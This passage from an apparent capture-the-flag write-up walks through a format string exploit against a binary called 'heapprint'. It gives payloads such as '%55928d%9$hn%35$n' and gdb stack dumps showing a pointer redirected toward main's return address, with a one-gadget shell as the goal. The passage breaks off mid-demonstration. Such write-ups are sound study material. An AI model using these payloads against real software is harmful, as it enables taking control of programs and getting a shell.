 Well, we find a pointer to pointer at `0x40`. So it's easy to come up with the idea that try to modify the pointer at `0248` to be `0x7ffc6b683878`, which pointers to the return address of main. Then modify it to be one gadget to get the shell.

Easier said than done. Let's try solving it. To better demonstrate the poc, I will turn off aslr in gdb(Otherwise we will need to bruteforce 4 bit to correctly locate the address of return address)

```bash
#payload="%55928d%9$hn", 55928=0xda78
[-------------------------------------code-------------------------------------]
=> 0x555555554a96:	call   0x555555554838
   0x555555554a9b:	lea    rdi,[rip+0xb6]        # 0x555555554b58
   0x555555554aa2:	call   0x555555554820
Guessed arguments:
arg[0]: 0x555555755060 --> 0x0 
arg[1]: 0x100 
arg[2]: 0x555555756010 ("%55928d%9$hn\n")
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffda60 --> 0x0 
0008| 0x7fffffffda68 --> 0x8879fe5d03add800 
0016| 0x7fffffffda70 --> 0x555555554ad0 (push   r15)
0024| 0x7fffffffda78 --> 0x2aaaaacf3830 (<__libc_start_main+240>:	mov    edi,eax)
0032| 0x7fffffffda80 --> 0x1 
0040| 0x7fffffffda88 --> 0x7fffffffdb58 --> 0x7fffffffdf44 ("./heapprint")
......
0240| 0x7fffffffdb50 --> 0x1 
0248| 0x7fffffffdb58 --> 0x7fffffffdf44 ("./heapprint")

[-------------------------------------code-------------------------------------]
   0x555555554a8a:	lea    rdi,[rip+0x2005cf]        # 0x555555755060
   0x555555554a91:	mov    eax,0x0
   0x555555554a96:	call   0x555555554838
=> 0x555555554a9b:	lea    rdi,[rip+0xb6]        # 0x555555554b58
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffda60 --> 0x0 
0008| 0x7fffffffda68 --> 0x8879fe5d03add800 
0016| 0x7fffffffda70 --> 0x555555554ad0 (push   r15)
0024| 0x7fffffffda78 --> 0x2aaaaacf3830 (<__libc_start_main+240>:	mov    edi,eax)
0032| 0x7fffffffda80 --> 0x1 
0040| 0x7fffffffda88 --> 0x7fffffffdb58 --> 0x7fffffffda78 --> 0x2aaaaacf3830 (<__libc_start_main+240>:	mov    edi,eax)
......
0240| 0x7fffffffdb50 --> 0x1 
0248| 0x7fffffffdb58 --> 0x7fffffffda78 --> 0x2aaaaacf3830 (<__libc_start_main+240>:	mov    edi,eax)

```
Seems working!

Now modify the return address.

```bash
#payload="%55928d%9$hn%35$n", 55928=0xda78
[-------------------------------------code-------------------------------------]
=> 0x555555554a96:	call   0x555555554838
   0x555555554a9b:	lea    rdi,[rip+0xb6]        # 0x555555554b58
   0x555555554aa2:	call   0x555555554820
Guessed arguments:
arg[0]: 0x555555755060 --> 0x0 
arg[1]: 0x100 
arg[2]: 0x555555756010 ("%55928d%9$hn%35$n\n")
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffda60 --> 0x0 
0008| 0x7fffffffda68 --> 0x8879fe5d03add800 
0016| 0x7fffffffda70 --> 0x555555554ad0 (push   r15)
0024| 0x7fffffffda78 --> 0x2aaaaacf3830 (<__libc_start_main+240>:	mov    edi,eax)
```